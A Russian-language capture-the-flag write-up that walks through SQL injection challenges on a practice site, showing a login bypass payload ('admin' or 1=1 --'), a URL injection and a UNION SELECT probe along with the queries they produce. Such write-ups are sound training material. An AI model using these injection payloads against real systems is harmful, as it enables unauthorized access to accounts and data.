 ![[Pasted image 20240729021239.png]]

Так тут нужно обойти проверки пароля. Давайте в качестве имя пользователя введём admin в качестве пароля 12345.

![[Pasted image 20240729021744.png]]

Ну ка папробуем в качестве имя пользователя `admin'` .

![[Pasted image 20240729021900.png]]

На странице пояявляется лог с ошибкой в которой показывается структура запроса

```sql 
SELECT * FROM users WHERE username = 'admin'' AND password = '12345'
```

Мы можем обойти проверку пароля с п.м. вот такого просто запроса:

- Username: `admin' or 1=1 --`
- Password: `ANY`

Теперь запрос выглядит вот так:

```sql
SELECT * FROM users WHERE username = 'admin' or 1=1 --' AND password = '12345'
```

![[Pasted image 20240729022229.png]]
## SQLi 2

**Платформа:** https://defendtheweb.net/
**Уровень:** Easy


![[Pasted image 20240724122105.png]]

Поиск уязвимости — первый шаг к решению проблемы. В данном случае уязвимостью является SQL-инъекция, позволяющая обойти аутентификацию и получить доступ к веб-сайту, вставив вредоносный SQL-код в форму входа.

Затем имена пользователей перечисляются с помощью URL с полезной нагрузкой SQL Injection. Введите следующую полезную нагрузку в URL, чтобы сделать это:

```
https://defendtheweb.net/playground/sqli2?q=A>' OR 1 --
```

Когда мы отправляем некорректный запрос, мы можем посмотреть на ошибку:

```sql
'UNION+SELECT+NULL--
```

Ответ:

```sql
DEBUG: SELECT username, admin FROM members WHERE username LIKE 'C'UNION SELECT NULL --%'
```
